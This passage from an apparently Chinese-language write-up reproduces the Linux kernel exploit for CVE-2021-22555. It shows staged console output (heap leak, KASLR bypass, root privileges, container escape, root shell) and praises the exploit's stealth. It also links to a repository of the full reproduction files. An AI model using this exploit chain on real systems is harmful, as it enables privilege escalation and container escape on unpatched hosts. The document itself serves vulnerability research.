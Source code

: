 ```
[+] Got secondary message (current UAF buf) kheap_addr: ffff888109000000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffff829d66c0
[+] kbase_addr: ffffffff81000000
[*] Leaking and freeing pipe_buffer object...

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@wintermute:/#
```  
  
## 总结  

CVE-2021-22555从2.6开始已经存在了很多年。本次复现采用的技术中，利用了RBP恢复利用前的调用栈。  

整个利用过程相当于在正常执行流中悄悄执行了几个函数，然后又恢复了正常的流程。  

这几个额外调用的函数，完成了权限提升，容器逃逸。
  
利用过程没有任何新的进程产生，没有任何新的文件产生，也没有文件修改，也没有新连接。
  
仅仅是切换了权限和进程空间！  

利用完美，非常隐蔽。
  
全部复现文件 [传送门](https://github.com/seamaner/kernel-cves-replay/tree/main/CVE-2021-22555)  

## 参考资料  

[2021-22555-poc](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22555)  
